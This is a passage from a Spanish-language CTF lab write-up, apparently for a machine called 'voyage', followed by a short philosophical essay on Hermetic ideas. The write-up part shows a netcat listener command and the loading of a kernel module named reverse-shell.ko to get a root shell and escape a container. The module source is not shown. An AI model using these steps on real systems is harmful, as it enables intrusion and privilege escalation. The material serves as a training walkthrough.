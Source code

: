 Iniciamos el oyente

```
nc -lvnp 4243
```

con esto ahora podemos compilar el módulo del kernel y cargarlo

```
make

insmod reverse-shell.ko
```

<figure><img src="../.gitbook/assets/voyage/make.png" alt=""><figcaption></figcaption></figure>

De esta manera, logramos obtener la `shell` de `root` y escapar del contenedor.

<figure><img src="../.gitbook/assets/voyage/root final.png" alt=""><figcaption></figcaption></figure>

--------------------

>*La idea de que el todo está en todas partes y en ninguna parte sugiere que la divinidad no es un lugar al que se llega ni un ser al que se ora. Es un principio invisible que habita en todo, pero que no puede ser capturado por nada. El todo representa el principio antes del tiempo, el susurro antes del pensamiento, la vibración antes del sonido, lo que reside dentro del átomo y lo que flota en el silencio del vacío.*
>
>*Si el todo está en ninguna parte, surge la pregunta de dónde lo buscamos, a qué estamos adorando y qué parte de nosotros lo contiene. Este es el verdadero misterio: no se trata de encontrar el todo, sino de recordar que somos parte de Él, no desde el ego ni el cuerpo, sino como una chispa que olvidó que era fuego. Es una conciencia que se disfrazó de humano para jugar a estar perdida.*
>
>*El mundo material en el que vivimos es solo un teatro, y la materia es una máscara. Todo lo que ves, tocas, consumes o anhelas forma parte de este juego. Sin embargo, el verdadero todo ni siquiera necesita participar. El Corpus Hermeticum lo afirmaba sin temor: los humanos que comprenden esta verdad dejan de ser esclavos del sistema del tiempo y de la muerte. Quien reconoce el todo ya no teme perder nada, porque ya lo es todo.*